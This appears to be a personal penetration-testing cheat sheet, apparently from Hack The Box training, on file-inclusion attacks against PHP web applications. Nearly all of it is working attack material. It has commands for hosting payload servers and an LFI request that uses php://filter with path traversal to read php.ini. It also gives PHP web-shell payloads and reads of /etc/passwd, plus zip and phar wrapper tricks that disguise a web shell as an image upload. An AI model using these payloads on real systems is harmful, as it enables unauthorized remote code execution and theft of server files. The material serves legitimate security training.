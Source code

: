 # Useful Links

# Useful Commands

HTTP Server
```bash
sudo python3 -m http.server <LISTENING_PORT>
```

FTP Server
```bash
sudo python3 -m pyftpdlib -p 21
```
SMB Server
```bash
impacket-smbserver -smb2support share $(pwd)
```
Checking PHP Configurations
```bash
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

Base64 PHP Shell
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

# Useful Payloads
```php
<?php file_get_contents('/etc/passwd'); ?>
<?php system('cat /flag.txt'); ?>
<?php system($_REQUEST['cmd']); ?>
```
```
[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
### Phar Upload
Finally, we can use the phar:// wrapper to achieve a similar result. To do so, we will first write the following PHP script into a shell.php file:
```
Code: php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
```
[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
